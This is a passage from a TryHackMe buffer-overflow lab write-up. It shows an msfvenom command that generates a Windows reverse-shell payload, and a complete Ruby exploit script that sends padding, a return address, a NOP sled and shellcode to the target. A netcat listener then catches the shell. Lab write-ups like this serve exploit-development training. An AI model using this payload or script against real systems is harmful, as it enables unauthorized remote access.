

Now, we have a working template in both Python and Ruby, we can choose either one of them. I am using the final Ruby template for the actual show. However, first we need to create a new payload by using the IP address on THM:
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.87.151 LPORT=6000 -f rb -a x86 --platform windows -b "\x00\x0A"
```
Couple of things to note here. LHOST has my IP when I connect to THM via openvpn, you can find that out by running:
```bash
ifconfig
```
And look for ```tun0``` device. You also notice that I am using a different port for LPORT on my machine. I just wanted to use a different port than 5555. Now, we need to copy and paste the encoded payload into our Ruby template:


```Ruby
buff = "A"*146
buff += "\xc3\x14\x04\x08"
buff += "\x90"*8
buff += "\xda\xd4\xbf\x37\xf4\x5a\xb9\xd9\x74\x24\xf4\x5a\x2b\xc9" +                                                                                                            
"\xb1\x52\x31\x7a\x17\x83\xc2\x04\x03\x4d\xe7\xb8\x4c\x4d" +                                                                                                            
"\xef\xbf\xaf\xad\xf0\xdf\x26\x48\xc1\xdf\x5d\x19\x72\xd0" +                                                                                                            
"\x16\x4f\x7f\x9b\x7b\x7b\xf4\xe9\x53\x8c\xbd\x44\x82\xa3" +                                                                                                            
"\x3e\xf4\xf6\xa2\xbc\x07\x2b\x04\xfc\xc7\x3e\x45\x39\x35" +                                                                                                            
"\xb2\x17\x92\x31\x61\x87\x97\x0c\xba\x2c\xeb\x81\xba\xd1" +                                                                                                            
"\xbc\xa0\xeb\x44\xb6\xfa\x2b\x67\x1b\x77\x62\x7f\x78\xb2" +                                                                                                            
"\x3c\xf4\x4a\x48\xbf\xdc\x82\xb1\x6c\x21\x2b\x40\x6c\x66" +                                                                                                            
"\x8c\xbb\x1b\x9e\xee\x46\x1c\x65\x8c\x9c\xa9\x7d\x36\x56" +                                                                                                            
"\x09\x59\xc6\xbb\xcc\x2a\xc4\x70\x9a\x74\xc9\x87\x4f\x0f" +                                                                                                            
"\xf5\x0c\x6e\xdf\x7f\x56\x55\xfb\x24\x0c\xf4\x5a\x81\xe3" +
"\x09\xbc\x6a\x5b\xac\xb7\x87\x88\xdd\x9a\xcf\x7d\xec\x24" +
"\x10\xea\x67\x57\x22\xb5\xd3\xff\x0e\x3e\xfa\xf8\x71\x15" +
"\xba\x96\x8f\x96\xbb\xbf\x4b\xc2\xeb\xd7\x7a\x6b\x60\x27" +
"\x82\xbe\x27\x77\x2c\x11\x88\x27\x8c\xc1\x60\x2d\x03\x3d" +
"\x90\x4e\xc9\x56\x3b\xb5\x9a\x52\xb5\xe2\xcd\x0b\xc7\x0c" +
"\xe5\xbb\x4e\xea\x63\x2c\x07\xa5\x1b\xd5\x02\x3d\xbd\x1a" +
"\x99\x38\xfd\x91\x2e\xbd\xb0\x51\x5a\xad\x25\x92\x11\x8f" +
"\xe0\xad\x8f\xa7\x6f\x3f\x54\x37\xf9\x5c\xc3\x60\xae\x93" +
"\x1a\xe4\x42\x8d\xb4\x1a\x9f\x4b\xfe\x9e\x44\xa8\x01\x1f" +
"\x08\x94\x25\x0f\xd4\x15\x62\x7b\x88\x43\x3c\xd5\x6e\x3a" +
"\x8e\x8f\x38\x91\x58\x47\xbc\xd9\x5a\x11\xc1\x37\x2d\xfd" +
"\x70\xee\x68\x02\xbc\x66\x7d\x7b\xa0\x16\x82\x56\x60\x26" +
"\xc9\xfa\xc1\xaf\x94\x6f\x50\xb2\x26\x5a\x97\xcb\xa4\x6e" +
"\x68\x28\xb4\x1b\x6d\x74\x72\xf0\x1f\xe5\x17\xf6\x8c\x06" +
"\x32"

RHOST = "10.10.110.117"
RPORT = 31337


require 'socket'

TCPSocket.open(RHOST,RPORT){ |s| s.puts buff}
```
Before running our Ruby script, let's start our netcat listener ```bash nc -nlvp 6000``` and let's fire away our Ruby script ```ruby shellcode.rb```


Nice, we are now in the machine as natbat user. Next, we'll look for some information...

[<= Go Back to BOF Menu](bufferoverflows.md)

[<= Go Back to Main Menu](index.md)
